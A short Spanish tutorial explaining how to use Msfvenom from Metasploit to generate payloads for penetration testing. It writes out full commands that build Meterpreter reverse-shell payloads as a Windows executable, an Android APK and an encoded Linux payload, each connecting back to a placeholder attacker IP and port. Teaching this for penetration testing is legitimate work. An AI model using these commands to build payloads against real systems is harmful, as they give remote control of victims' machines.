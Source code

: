 
<h1>¿Qué es Msfvenom?</h1>

Msfvenom es una herramienta de línea de comandos incluida en el framework de Metasploit. Se utiliza para generar payloads (cargas útiles) para su uso en pruebas de penetración y operaciones de hacking ético. Estos payloads pueden ser utilizados para obtener acceso remoto a sistemas comprometidos, crear troyanos, entre otros.

**Uso básico:**

El comando básico de msfvenom sigue la siguiente estructura:
```
msfvenom -p <payload> [opciones]
```

Donde:
- `<payload>`: es el tipo de payload que deseas generar.
- `[opciones]`: son los diferentes parámetros y configuraciones que puedes ajustar según tus necesidades.

**Ejemplo de comando básico para generar un payload de reverse shell:**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=<tu_puerto> -f <formato> > payload.exe
```

Este comando generará un payload de Meterpreter para Windows que establecerá una conexión de reverse shell a la IP y puerto especificados.

**Opciones comunes:**

- `-p, --payload <payload>`: Especifica el tipo de payload a generar.
- `-f, --format <formato>`: Especifica el formato de salida del payload (puede ser `exe`, `elf`, `raw`, `sh`, `psh`, etc.).
- `LHOST=<tu_IP>`: Especifica la dirección IP del host que recibirá la conexión.
- `LPORT=<tu_puerto>`: Especifica el puerto en el host que recibirá la conexión.
- `-o, --out <archivo>`: Especifica el nombre del archivo de salida donde se guardará el payload.

**Ejemplo de comando para generar un payload de Android APK:**
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=<tu_puerto> -o payload.apk
```

Este comando generará un payload de Meterpreter para Android en formato APK.

**Ejemplo de comando para generar un payload con codificación base64:**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=<tu_puerto> -e x86/shikata_ga_nai -i 3 -f raw | base64 > payload.txt
```

Este comando generará un payload de Meterpreter para Linux con codificación base64.

**Nota:**
Msfvenom ofrece una amplia gama de opciones y configuraciones para generar payloads para diferentes plataformas y propósitos. Asegúrate de revisar la documentación oficial de Metasploit para obtener más información sobre las opciones disponibles y cómo utilizarlas.

Para obtener ayuda adicional, puedes usar el comando `msfvenom --help` o consultar la documentación oficial de Metasploit.